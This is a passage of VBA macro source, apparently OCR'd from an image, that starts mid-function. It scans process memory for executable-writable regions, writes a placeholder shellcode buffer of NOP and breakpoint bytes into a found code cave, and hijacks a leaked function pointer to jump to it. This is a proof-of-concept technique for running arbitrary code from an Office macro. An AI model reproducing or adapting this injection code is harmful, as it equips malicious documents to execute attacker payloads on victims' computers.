 ```vb
    Next i
    leak = funcLeak
End Function

Function getTarget(counter As LongPtr) As LongPtr
    Dim mbi As MEMORY_BASIC_INFORMATION
    Dim ret As LongPtr
    Dim dwLenght As LongPtr
    Dim addr As LongPtr
    Dim check As LongPtr
    Dim j As LongPtr
    Dim k As LongPtr
    Dim napa As LongPtr
    addr = 0
    check = 1337
    
    For i = counter To 10000
        ret = VirtualQuery(addr, mbi, LenB(mbi))
        If mbi.Protect = 64 And mbi.RegionSize > 1024 Then
            For j = 0 To mbi.RegionSize - 100 Step 8
                napa = 1
                For k = 0 To 48 Step 8
                    Call CopyMemory(VarPtr(check), mbi.BaseAddress + j + k, 8)
                    If check <> 0 Then
                        napa = 2
                    End If
                Next k
                If napa = 1 Then
                    getTarget = mbi.BaseAddress + j
                    Exit For
                End If
            Next j
            Exit For
        End If
        addr = mbi.BaseAddress + mbi.RegionSize
    Next i
    Cells(1, 1) = "0x" + Hex(getTarget)
End Function

Sub test()
    Dim jmp As LongPtr
    Dim target As LongPtr
    Dim sc As LongPtr
    Dim check As LongPtr
    Dim buf As Variant
    Dim i As LongPtr
    jmp = leak
    check = 0
    '204 == 0xCC 144 == 0x90
    buf = Array(144, 144, 144, 144, 144, 204, 204, 204)

    target = getTarget(i)
    If target <> 0 Then
        sc = target + 8 + &HB0
        For n = LBound(buf) To UBound(buf)
            Call CopyMemory(sc + n, VarPtr(buf(n)) + 8, 8)
        Next n
    
        Call CopyMemory(target + &HB0, VarPtr(sc), 8)
        Call CopyMemory(jmp, VarPtr(target), 8)
    Else
        MsgBox "Cave not found!"
    End If
```